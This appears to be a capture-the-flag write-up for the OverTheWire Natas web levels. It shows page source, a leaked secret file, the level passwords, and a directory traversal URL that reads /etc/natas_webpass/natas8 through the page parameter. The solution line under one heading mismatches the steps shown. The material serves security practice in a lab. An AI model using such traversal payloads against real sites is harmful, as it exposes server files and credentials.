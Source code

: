 ```html
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
--------------------------------------------------------
goto:
https://natas6.natas.labs.overthewire.org/includes/secret.inc
--------------------------------------------------------
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
--------------------------------------------------------
"Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
```

---

## Natas Level 6 → Level 7

> Solution: intercept the packet, change the cookie

Username: natas7
URL:      https://natas7.natas.labs.overthewire.org
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>

<body>
  <h1>natas7</h1>
  <div id="content">
  <a href="index.php?page=home">Home</a>
  <a href="index.php?page=about">About</a>
  <br>
  <br>
  this is the front page
  <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  </div>
</body>
</html>
--------------------------------------------------------
we can get the password from "etc/natas_webpass/natas8"
assume this is a Directory Traversal Attack.
--------------------------------------------------------
Home: https://natas7.natas.labs.overthewire.org/index.php?page=home
remove home and add "/etc/natas_webpass/natas8".
https://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
--------------------------------------------------------
Home About
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

---